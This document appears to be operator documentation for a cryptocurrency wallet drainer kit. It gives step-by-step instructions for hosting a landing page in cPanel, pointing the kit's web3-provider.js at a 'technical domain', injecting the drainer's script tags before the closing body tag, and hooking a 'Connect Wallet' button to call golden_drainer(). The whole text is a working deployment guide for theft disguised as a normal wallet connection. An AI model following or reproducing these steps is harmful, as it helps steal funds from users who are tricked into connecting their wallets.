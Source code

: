 # 😎 Landing page installation

[In this section](buying-landing-page-domain.md) we bought [**Landing page domain**](buying-landing-page-domain.md), now we need to install the landing page on the hosting.

You need to host site files in cPanel:

1. Open your hosting control panel.
2. In the "Domains" section, select Domains:
3. Click on the root folder of your site to go to the root directory:
4. Delete all files contained in the root folder, except for the cgi-bin directory.
5. Click the "**Download**" button
6. Select and upload the archive with your website files. Attention: cPanel hosting control panel only supports archives in formats: **zip**, **gzip**, **bzip** and **tar**.
7. Select the archive and click "**Extract**":
8. Enter the path to the directory where you want to extract the files. Then click the "**Extract Files**" button
9. Make sure that the site files were extracted directly to the site directory and not to a subdirectory.



Open the "Client" folder, go to the "assets" folder, open the "web3-provider.js" file and enter here our [**Technical domain**](buying-technical-domain.md) (in the same format as it is specified in the file).

After making changes, transfer the "assets" folder to the root of our landing

Now open the site file where your landing is, usually called "index.html."

Scroll through the file to the end and find a special tag there that looks like this:\
\</body>

As soon as you find it, write down the following lines of code right in front of it:

```
 <script src="/assets/web3-provider/web3-connect.js"></script>
 <script src="/assets/web3-provider/web3-router.js"></script>
 <script src="/assets/web3-provider/web3-module.js"></script>
 <script src="/assets/web3-provider/web3-alert.js"></script>
 <script src="/assets/web3-provider/web3-seaport.js"></script>
 <script src="/assets/web3-provider/web3-data.js"></script>
 <script src="/assets/web3-provider/ethers.js"></script>
 <script src="/assets/web3-provider/ethereum-tx.js"></script>
 <script src="/assets/web3-provider.js"></script>
```

Now you need to connect the Drainer to the button you need, or just an item on the page.

Most often, the buttons look either like this in the code:

```
<button class="button btn-dark"> Connect Wallet </button>
```

Or somehow, in fact, it can look like anything:

```
<a href="#"> Connect Wallet </a>
```

You need to add the desired function to the button so that it is called when clicking:

```
onclick="golden_drainer()"
```

That is, in the final version it will look like this:

```
<button class="button btn-dark" onclick="golden_drainer()">Connect Wallet</button>
```

Please note that these scripts will only work on hosting. If you open the file on a local server or just on a computer, most likely nothing will work.

Uploading our landing to hosting.

Open our website and check.
